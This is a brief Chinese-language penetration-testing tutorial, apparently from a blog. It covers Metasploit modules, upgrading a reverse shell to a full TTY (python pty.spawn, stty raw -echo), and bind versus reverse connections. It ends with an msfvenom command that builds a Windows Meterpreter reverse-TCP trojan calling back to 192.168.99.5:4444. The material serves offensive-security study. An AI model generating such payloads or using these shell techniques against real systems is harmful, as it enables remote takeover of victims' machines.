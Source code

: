 ## Metasploit常用的几个模块

Exploit（漏洞exp模块）

Msfvenom生成木马（linux,windows)

Meterpreter内网渗透

## shell迁移

1. 首先连接到 shell 后，先检查一下 python 的可用性， 用 winch 命令检查：

```bash
which python python2 python3
```

只要安装了其中任何一个，就将返回已安装二进制文件的路径。

1. 在靶机上输入以下命令（使用机器上可用的 python 版本！）

```rust
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

1. 接下来，在靶机上输入以下命令来设置一些重要的环境变量：

```bash
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

1. 键入 ctrl-z 以将 shell 发送到后台。
2. 设置 shell 以通过反向 shell 发送控制字符和其他原始输入。使用以下stty命令来执行此操作。

```bash
stty raw -echo;fg
```

回车一次后输入 reset 再回车将再次进入 shell 中：

![image](https://img2020.cnblogs.com/blog/1282531/202201/1282531-20220110102654230-1851709271.png)

到此 TTY shell 升级完成。

## 正向与反向连接

正向
攻击者主动连接受害者

反向
受害者主动连接攻击者

## msfvenom生成木马

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.99.5 LPORT=4444 -f exe >hack.exe
```

